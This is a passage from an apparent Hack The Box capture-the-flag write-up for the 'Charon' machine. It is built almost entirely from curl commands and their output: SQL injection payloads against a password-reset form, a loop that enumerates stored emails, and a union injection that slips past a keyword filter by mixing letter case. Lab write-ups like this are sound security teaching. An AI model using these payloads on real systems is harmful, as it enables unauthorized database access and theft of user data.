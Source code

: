 I will be sending the requests throught cURL so I grab the parameter names which are "email" and "submit"

![](assets/img/htb/charon/parameters_1.png)

#### retrieving valid emails

Testing for other sql injections I end up with the following that retrieves a valid email and limits the result to a specific index in this case test1, for limit 1,1 it will be test2@aa.com=>test2 and so on
```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' or 1=1 limit 0,1-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: test1@aa.com=>test1 
 ```
 
 with a for loop I can retrieve all the emails looking for the ones that are different from "test", I end up finding two valid emails 

```bash
$ for i in {0..999}; do (curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' or 1=1 limit $i,1-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}')& ; done | grep -vE "test|User not found with that email"
 Email sent to: adm@nowhere.com=>super_cms_adm    
 Email sent to: decoder@nowhere.com=>decoder   
 ```

#### union injection
 
 Trying with a "union" and "UNION" injection results in an error
 
 ```bash
 $ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' union select 1,2,3,4-- -" -d "submit=submit"
Error                                                                                                                                        $ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' UNION select 1,2,3,4-- -" -d "submit=submit"
Error 
```

To bypass it, it is needed to mix uppercase and lowercase letters
```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,2,3,4-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Incorrect format  
```

To fix the incorrect format error an email has to be placed in one of the tags from the union select injection, in this case is in the 4th one 

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,2,3,\"x@charon.htb\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>2    
```

